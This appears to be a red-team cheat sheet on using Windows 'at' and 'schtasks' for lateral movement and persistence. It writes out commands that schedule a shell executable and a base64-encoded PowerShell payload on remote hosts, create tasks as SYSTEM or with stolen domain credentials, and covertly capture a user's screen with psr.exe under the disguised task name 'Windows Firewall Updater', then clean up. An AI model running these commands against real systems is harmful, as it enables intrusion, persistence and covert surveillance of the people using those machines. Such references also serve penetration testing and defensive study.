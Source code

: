 # Schedule Periodic Tasks

## 01 - at

### 1.1 - Use Cases

```
C:\> net time \\<IP>

C:\> at <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at <HH:mm> powershell.exe -E <base64_payload>

C:\> at \\<IP>
```

## 02 - Schtasks

### 2.1 - Usage

```
C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

`/create` => create a schedule task
`/sc` => type of schedule
`/st` => start time
`/tn` => task name
`/tr` => task run
`/s` => computer IP
`/ru` => specify the {`[DOMAIN_name]\<username>|system`}
`/rp` => specify the password
`/it` => Make it interactive when the user is using his computer

### 2.2 - Use Cases

- Taking screenshots (Living off the Land)

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /sc once /st 00:00 /tn "Windows Firewall Updater" /tr "C:\Windows\System32\psr.exe /start /gui 0 /output C:\Users\<username>\out.zip" /s <ip> /ru <DOMAIN_NAME>\<username> /rp <password> /it

C:\> schtasks [/start|/run] /tn "Windows Firewall Updater" /s <IP>

C:\> schtasks /delete /f /tn "Windows Firewall Updater" /s <IP>

C:\> schtasks /query /tn "Windows Firewall Updater" /fo List /v /s <IP>
```

## References

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)